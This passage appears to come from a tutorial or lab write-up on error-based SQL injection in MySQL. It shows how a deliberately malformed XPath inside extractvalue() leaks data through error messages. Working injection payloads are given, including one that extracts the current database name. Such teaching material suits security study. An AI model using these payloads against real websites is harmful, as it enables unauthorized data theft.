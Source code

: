 ### Step 2. Choose a Function that Outputs an Error
In this case, we’ll use the extractvalue(xml, xpath_expr) function.
extractvalue() function:
- First argument: XML string
- Second argument: XPath expression (used to extract a value from the XML)

Example XML:

```
<user>
  <name>Jimin</name>
</user>
```

Query:
```
extractvalue(xml_string, '/user/name')
-- Returns: Jimin
```

However, instead of using it correctly, we’ll use it **incorrectly** on purpose to force an error message. If the website is configured to show SQL error messages, we can inject our desired value into the error message itself..

How to Trigger the Error?
We intentionally pass a malformed XPath expression as the second argument:

``` 
extractvalue('1', ':abc')
```

Since **:abc** is not valid XPath, this triggers -> **XPATH syntax error: ':abc'** 
Now, we can replace abc with any value we want to extract — and it will be revealed inside the error message.

### Step 3. Create the Injection Format

Initially, you might think the following works: normaltic' AND extractvalue('1', (SELECT '____')) AND '1'='1
But this doesn't actually cause an error — XPath must be malformed.
You might then try: normaltic' AND extractvalue('1', :(SELECT 'value')) AND '1'='1
But this results in SQL syntax error due to the : operator, which is invalid in MySQL.
Correct approach is to use concat() to merge values and trigger a parsing error inside XPath: normaltic' AND extractvalue('1', concat(0x3a, (SELECT 'value'))) AND '1'='1
The reason for appending AND '1'='1' is to balance the final quote and avoid breaking SQL syntax.

Final Attack Format:
``` 
normaltic' and extractvalue('1', concat(0x3a, (select 'test'))) and '1'='1
normaltic' and extractvalue('1', concat(0x3a, (select '_______'))) and '1'='1
``` 
![image](https://github.com/user-attachments/assets/25b10693-e16c-4f79-b697-8ac89e013d5f)


### Step 4. Get DB name
Now that we have a working payload format, we can extract data. For example, to get the current database name:
``` 
normaltic' and extractvalue('1', concat(0x3a, (select database()))) and '1'='1
``` 
![image](https://github.com/user-attachments/assets/18c23230-20ed-42bf-a699-6736a8c75a03)
